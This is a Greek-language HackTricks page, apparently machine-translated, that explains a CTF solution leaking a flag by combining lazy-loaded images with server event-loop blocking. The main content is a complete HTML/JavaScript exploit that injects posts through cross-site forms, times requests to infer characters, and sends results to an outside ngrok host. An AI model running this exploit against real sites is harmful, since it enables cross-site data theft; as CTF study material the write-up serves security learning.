 # Φραγή του Συνόλου Εκδηλώσεων + Τεμπέλικες εικόνες

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks**; Ή θέλετε να έχετε πρόσβαση στην **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε μορφή PDF**; Ελέγξτε τα [**ΠΑΚΕΤΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε** στην [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο [αποθετήριο hacktricks](https://github.com/carlospolop/hacktricks) και [αποθετήριο hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

Σε [**αυτήν την εκμετάλλευση**](https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45), ο [**@aszx87410**](https://twitter.com/aszx87410) συνδυάζει την τεχνική του **πλευρικού καναλιού εικόνας τεμπέλικων** με μια τεχνική **φραγής του συνόλου εκδηλώσεων** για να διαρρεύσει χαρακτήρες.

Αυτή είναι μια **διαφορετική εκμετάλλευση για το CTF chall** που ήδη σχολιάστηκε στην ακόλουθη σελίδα. Ρίξτε μια ματιά για περισσότερες πληροφορίες σχετικά με την πρόκληση:

{% content-ref url="connection-pool-example.md" %}
[connection-pool-example.md](connection-pool-example.md)
{% endcontent-ref %}

Η ιδέα πίσω από αυτήν την εκμετάλλευση είναι:

* Οι αναρτήσεις φορτώνονται αλφαβητικά
* Ένας **επιτιθέμενος** μπορεί να **ενθέσει** μια **ανάρτηση** που ξεκινά με το **"A"**, στη συνέχεια κάποια **ετικέτα HTML** (όπως ένα μεγάλο **`<canvas`**) θα καλύψει την πλειοψηφία της **οθόνης** και μερικές τελικές **ετικέτες `<img lazy`** για να φορτώσει πράγματα.
* Αντί για ένα "A", ο **επιτιθέμενος ενθέτει την ίδια ανάρτηση αλλά ξεκινώντας με ένα "z"**. Η **ανάρτηση** με τη **σημαία** θα εμφανιστεί **πρώτη**, στη συνέχεια η **ενθετημένη** **ανάρτηση** θα εμφανιστεί με το αρχικό "z" και το **μεγάλο** **canvas**. Επειδή η ανάρτηση με τη σημαία εμφανίστηκε πρώτη, το πρώτο καμβά θα καταλάβει ολόκληρη την οθόνη και οι τελικές **ετικέτες `<img lazy`** που ενθέτιστηκαν **δεν θα φαίνονται** στην οθόνη, οπότε **δεν θα φορτωθούν**.
* Στη συνέχεια, **ενώ** το bot **έχει πρόσβαση** στη σελίδα, ο **επιτιθέμενος** θα **στείλει αιτήσεις fetch**.&#x20;
* Αν οι **εικόνες** που ενθέτονται στην ανάρτηση **φορτώνονται**, αυτές οι **αιτήσεις fetch** θα διαρκέσουν **περισσότερο χρόνο**, οπότε ο επιτιθέμενος γνωρίζει ότι η **ανάρτηση βρίσκεται πριν τη σημαία** (αλφαβητικά).
* Αν οι **αιτήσεις fetch** είναι **γρήγορες**, σημαίνει ότι η **ανάρτηση** βρίσκεται **αλφαβητικά μετά** τη σημαία.

Ας ελέγξουμε τον κώδικα:
```html
<!DOCTYPE html>
<html>
<!--
The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs event loop.
If images are loading, the request to "/" is slower, otherwise faster.
By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
We can use fetch to measure the request time.
-->
<body>
<button onclick="run()">start</button>

<!-- Inject post with payload -->
<form id=f action="http://localhost:1234/create" method="POST" target="_blank">
<input id=inp name="text" value="">
</form>

<!-- Remove index -->
<form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
<input id=inp2 name="index" value="">
</form>

<script>
let flag = 'SEKAI{'
const TARGET = 'https://safelist.ctf.sekai.team'
f.action = TARGET + '/create'
f2.action = TARGET + '/remove'

const sleep = ms => new Promise(r => setTimeout(r, ms))
// Function to leak info to attacker
const send = data => fetch('http://server.ngrok.io?d='+data)
const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

// start exploit
let count = 0
setTimeout(async () => {
let L = 0
let R = charset.length - 1

// I have omited code here as apparently it wasn't necesary

// fallback to linerar since I am not familiar with binary search lol
for(let i=R; i>=L; i--) {
let c = charset[i]
send('try_' + flag + c)
const found = await testChar(flag + c)
if (found) {
send('found: '+ flag+c)
flag += c
break
}
}

}, 0)

async function testChar(str) {
return new Promise(resolve => {
/*
For 3350, you need to test it on your local to get this number.
The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
If starts with "A", the image should be loaded because it's in the threshold.
*/
// <canvas height="3350px"> is experimental and allow to show the injected
// images when the post injected is the first one but to hide them when
// the injected post is after the post with the flag
inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
f.submit()

setTimeout(() => {
run(str, resolve)
}, 500)
})
}

async function run(str, resolve) {
// Open posts page 5 times
for(let i=1; i<=5;i++) {
window.open(TARGET)
}

let t = 0
const round = 30 //Lets time 30 requests
setTimeout(async () => {
// Send 30 requests and time each
for(let i=0; i<round; i++) {
let s = performance.now()
await fetch(TARGET + '/?test', {
mode: 'no-cors'
}).catch(err=>1)
let end = performance.now()
t += end - s
console.log(end - s)
}
const avg = t/round
// Send info about how much time it took
send(str + "," + t + "," + "avg:" + avg)

/*
I get this threshold(1000ms) by trying multiple times on remote admin bot
for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
*/
const isFound = (t >= 1000)
if (isFound) {
inp2.value = "0"
} else {
inp2.value = "1"
}

// remember to delete the post to not break our leak oracle
f2.submit()
setTimeout(() => {
resolve(isFound)
}, 200)
}, 200)
}

</script>
</body>
</html>
```
<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε τη **εταιρεία σας να διαφημίζεται στο HackTricks**; Ή θέλετε να έχετε πρόσβαση στη **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε μορφή PDF**; Ελέγξτε τα [**ΠΑΚΕΤΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Συμμετάσχετε στη** [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο [αποθετήριο hacktricks](https://github.com/carlospolop/hacktricks) και [αποθετήριο hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
